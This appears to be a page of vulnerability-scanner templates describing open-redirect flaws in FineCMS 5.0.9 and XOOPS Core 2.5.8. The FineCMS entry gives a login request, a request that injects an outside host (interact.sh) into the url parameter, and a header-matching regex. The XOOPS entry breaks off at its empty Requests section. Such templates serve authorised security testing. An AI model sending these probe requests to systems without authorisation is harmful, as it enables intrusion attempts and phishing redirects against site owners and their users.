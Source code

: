 ## Description

- FineCMS 5.0.9 contains an open redirect vulnerability via the url parameter in a sync action. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - medium
- tags - cve,cve2017,redirect,finecms

## Requests

### Step - 1

```
POST /index.php?s=member&c=login&m=index HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

back=&data%5Busername%5D={{username}}&data%5Bpassword%5D={{password}}&data%5Bauto%5D=1

```

### Step - 2

```
GET /index.php?c=weixin&m=sync&url=http://interact.sh HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - regex**

- part - header
- regex
  1. Refresh:(.\*)url=http:\/\/interact\.sh

---

# XOOPS Core 2.5.8 - Open Redirect

## Description

- XOOPS Core 2.5.8 contains an open redirect vulnerability in /modules/profile/index.php due to the URL filter. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - medium
- tags - cve,cve2017,redirect,xoops,authenticated

## Requests

